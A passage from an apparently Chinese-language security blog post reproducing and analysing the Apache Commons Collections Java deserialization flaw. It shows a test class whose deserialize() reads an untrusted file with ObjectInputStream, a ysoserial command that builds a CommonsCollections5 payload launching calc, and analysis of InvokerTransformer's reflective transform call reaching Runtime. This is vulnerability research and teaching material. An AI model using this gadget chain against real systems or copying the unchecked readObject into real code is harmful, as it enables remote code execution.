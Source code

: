 ```java
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("test.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```
## 漏洞复现
使用ysoserial生成payload
```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 calc > test.ser
```
![20200119192547](https://y4er.com/img/uploads/20200119192547.png)
成功弹出计算器。

## 漏洞分析
在 [ysoserial的payload](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java) 中，我们可以看到问题出在 org.apache.commons.collections.functors.InvokerTransformer，在这个类中实现了Serializable接口，并且有一个transform方法。
```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
这明显是反射的用法，使用transform方法我们可以调用Runtime类执行命令

